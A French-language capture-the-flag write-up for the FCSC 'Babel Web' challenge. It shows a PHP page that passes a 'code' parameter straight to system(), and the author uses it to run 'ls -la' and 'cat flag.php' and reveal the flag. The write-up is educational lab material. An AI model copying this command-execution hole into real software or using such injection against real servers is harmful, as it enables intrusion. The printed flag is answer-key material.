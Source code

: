 # Babel Web

<img src="https://media.discordapp.net/attachments/707246075441840169/707263469216333885/unknown.png?width=964&height=1073" width="500" height="600"><img>

Pour ce challenge qui est donc Babel Web on n'a pas vraiment d'indice dans l'énoncé pour savoir où commencer à fouiller, cependant on a deux hints donc un qui nous dit : "Essayez d'exécuter des commandes PHP pour extraire le flag.".
En arrivant sur la page d'accueil on observe un message de maintenance :

<img src ="https://media.discordapp.net/attachments/707246075441840169/707264817471160320/unknown.png?width=2184&height=1133"></img>

En voyant ça je décide donc d'afficher le code source de la page à l'aide d'un `curl -X GET` mais ça me renvoie directement une erreur `curl: (5) Could not resolve proxy: GET`, donc j'utilise une méthode "PUTS". J'envoie donc ma requê
te et j'obtiens ceci :

```html
<html>
	<head>
		<title>Bienvenue à Babel Web!</title>
	</head>	
	<body>
		<h1>Bienvenue à Babel Web!</h1>
		La page est en cours de développement, merci de revenir plus tard.
		<!-- <a href="?source=1">source</a> -->
	</body>
</html>
```
Suite au résultat obtenue j'ajoute donc à mon url `?source=1` afin d'afficher le code source côté serveur donc PHP.
```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
```
En observant le code PHP de la page on comprend très rapidement qu'il suffit de remplacer `?source=1` par `?code=` afin d'exécuter du code directement depuis la page web sur la machine. Je modifie donc le `?source=1` par `?code=ls -la` afin de vérifier mes propos et bingo !
```
total 16
dr-xr-xr-x 1 www-data www-data 4096 Apr 25 09:00 .
drwxr-xr-x 1 root     root     4096 Apr 25 09:00 ..
-r--r--r-- 1 root     root       89 Apr 25 08:59 flag.php
-r-xr-xr-x 1 root     root      439 Apr 25 08:59 index.php
```
Je modifie donc le `ls -la` par un : `cat flag.php`, j'affiche le code de la page et voilà un premier challenge déjà de terminé car on obtient le flag :
`$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";`
